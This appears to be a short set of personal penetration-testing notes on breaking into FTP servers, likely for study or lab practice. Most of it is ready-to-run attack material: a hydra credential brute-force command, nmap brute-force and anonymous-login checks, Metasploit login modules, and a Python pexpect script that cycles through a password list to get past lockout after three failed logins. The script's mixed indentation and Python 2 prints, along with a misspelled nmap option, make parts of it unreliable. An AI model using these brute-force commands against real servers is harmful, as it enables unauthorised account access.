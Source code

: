 # FTP 
#FTP
## hydra brute force log in

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $IP -t 4 ftp
```

## nmap
`--script ftp-brute --script-agrs userdb=<db> -p 21`
script doesn't need password file. it uses nmap default

check for anon login with #nmap
`--script ftp-anon`

also try via login `ftp anonymous@$IP` without password

## metasploit enumeration

Filtering search results
```
search type:auxiliary name:ftp
```

Version scanning:
```
scanner/ftp/ftp_version
```
Note: easier to just nmap in most cases. 

Brute force module
```
/auxiliary/scanner/ftp/ftp_login
```

A custom script to attempt the logins is required if automated dictionary attack do not work, since the server terminates the sessions after 3 login attempts.

```python
import pexpect
import sys
username=sys.argv[2]
password_dict=sys.argv[3]

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

itr = 0
# Iterating over dictionary
for password in lines:
	child = pexpect.spawn ('ftp '+sys.argv[1])
	child.expect ('Name .*: ')
	child.sendline (username)
    print "Trying with password: ",password
	child.expect ('Password:')
	child.sendline (password)
	i = child.expect (['Login successful', 'Login failed'])
	if i==1:
		#print('Login failed')
		child.kill(0)
	elif i==0:
		print "Login Successful for ",password
		print child.before
		break
```

Then run via:
```bash
python $FILE.py $IP $USER /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

